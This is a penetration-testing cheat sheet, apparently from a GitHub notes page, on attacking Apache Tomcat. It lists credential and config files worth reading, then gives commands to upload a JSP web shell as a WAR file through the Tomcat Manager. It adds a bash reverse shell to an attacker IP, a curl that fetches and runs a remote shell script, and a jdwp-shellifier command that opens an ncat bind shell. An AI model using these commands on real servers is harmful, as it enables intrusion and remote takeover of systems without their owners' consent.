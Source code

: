 # Tomcat

### Introduction

Apache **Tomcat** is an open-source implementation of the Java Servlet, JavaServer Pages, Java Expression Language and WebSocket technologies.
**Tomcat** provides a "pure Java" HTTP web server environment in which Java code can run.

Following files could be interesting:
- /usr/share/tomcatX/etc/tomcat-users.xml
X=version
- /conf/server.xml
- /conf/web.xml

### AJP Connector

The **AJP Connector** element represents a Connector component that communicates with a web connector via the AJP protocol.

Within some version of Apache, by default the Manager is only accessible from a browser running on that machine.

##### War file upload

In order to see if it's there, check the following path
http://*IP*/manager/text/deploy

You will need to create a .war file by going on  https://github.com/tennc/webshell

jsp/cmdjsp.jsp

```bash
zip cmdjsp.jsp cmdjsp.war # Convert JSP to War file
curl -T cmdjsp.war -u 'username:password' http://IP:PORT/manager/text/deploy?path=/myapp # Post the war file
# Navigate to http://IP:PORT/app2/cmdjsp.jsp
# Or do a POST through Burp Suite with a shell.sh 
# bash -c 'bash -i >& /dev/tcp/IP/PORT 0>&1'
# like CMD=curl IP:PORT/shell.sh -o /tmp/sh 
# CMD=bash /tmp/sh
```
- **JSP** is a collection of technologies that helps software developers create dynamically generated web pages based on HTML, XML, SOAP, or other document types.
- **WAR** is the extension of a file that packages a web application directory hierarchy in ZIP format and is short for Web Archive.

### Java Debug Wire Protocol

The **Java Debug Wire Protocol** is the protocol used for communication between a debugger and the Java virtual machine (VM) which it debugs (hereafter called the target VM)

[jdwp-shellifier](https://github.com/IOActive/jdwp-shellifier) is a tool to gain remote code execution on actice JDWP service.

```bash
python ./jdwp-shellifier.py -t IP -p PORT --cmd "ncat -v -l -p 1234 -e /bin/bash"
```